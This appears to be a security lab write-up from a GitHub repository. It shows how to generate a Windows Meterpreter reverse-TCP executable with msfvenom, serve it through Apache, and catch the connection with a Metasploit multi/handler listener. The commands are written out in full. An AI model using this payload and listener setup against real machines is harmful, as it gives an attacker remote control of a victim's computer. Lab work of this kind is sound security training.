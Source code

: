 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="676" height="383" alt="image" src="https://github.com/user-attachments/assets/dd5250d5-09c1-4fd7-82b2-a0048bedf610" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 -f exe -o divya.exe```

### Output:

<img width="826" height="200" alt="image" src="https://github.com/user-attachments/assets/de2d4314-497c-447a-ba74-5822866cfc2b" />


copy the divya.exe into the apache ```/var/www/html ```folder
<img width="385" height="64" alt="image" src="https://github.com/user-attachments/assets/b80f2833-22ea-4513-bf80-4521a9412dd4" />




Start apache server ```sudo systemctl apache2 start``` 

<img width="351" height="55" alt="image" src="https://github.com/user-attachments/assets/350d970a-9b77-46d2-8b55-f6e516cda121" />



Check the status of apache2 ```sudo apache2 status```
<img width="991" height="437" alt="image" src="https://github.com/user-attachments/assets/093395e3-a8bb-4103-b8b8-276f5f6fcc4d" />


Invoke msfconsole:
<img width="871" height="617" alt="image" src="https://github.com/user-attachments/assets/1e1b992c-893a-41d2-bdcf-98902b7eddef" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
<img width="746" height="612" alt="image" src="https://github.com/user-attachments/assets/d2156186-6916-4cbd-bd41-c7ee430f3dc9" />

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```
<img width="955" height="707" alt="image" src="https://github.com/user-attachments/assets/02efea2a-2bb8-42e5-980c-2b52b34fdbf1" />


### Output 


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://10.0.2.15/divya.exe``` The file "divya.exe" downloads.

### Output 

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/dfd3a18b-272b-4dfe-830e-a0e510f16fc2" />
